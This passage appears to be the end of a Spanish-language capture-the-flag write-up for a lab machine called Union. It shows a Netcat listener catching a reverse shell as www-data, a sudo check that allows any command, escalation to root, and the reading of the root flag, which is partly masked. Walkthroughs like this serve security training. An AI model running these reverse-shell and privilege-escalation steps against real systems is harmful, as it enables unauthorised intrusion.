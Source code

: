  Nos ponemos a la escucha con una session de Netcat en Nuestro Equipo para Recibir la conexion entrante.

 ```bash
 nc -vlnp 443                                                                                                                       1 ⨯ 1 ⚙
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.128] 58324
bash: cannot set terminal process group (848): Inappropriate ioctl for device
bash: no job control in this shell
www-data@union:~/html$
```

Vemos que entramos como el `www-data` , enumeramos el sistema para ver como podemos escalar privilegios

```bash
www-data@union:~/html$ sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

Vemos que podemos convertirnos en administradores

```bash
www-data@union:~/html$ sudo -u root /bin/bash
root@union:/var/www/html#
```

Sacamos la Flag Para ROOT

```bash
root@union:/var/www/html# cat /root/root.txt 
7a97deabcc2cef8768d711dxxxxxxxx
```

Maquina Union - SQLI - Code Injection - Pwned 

K0H4ck





















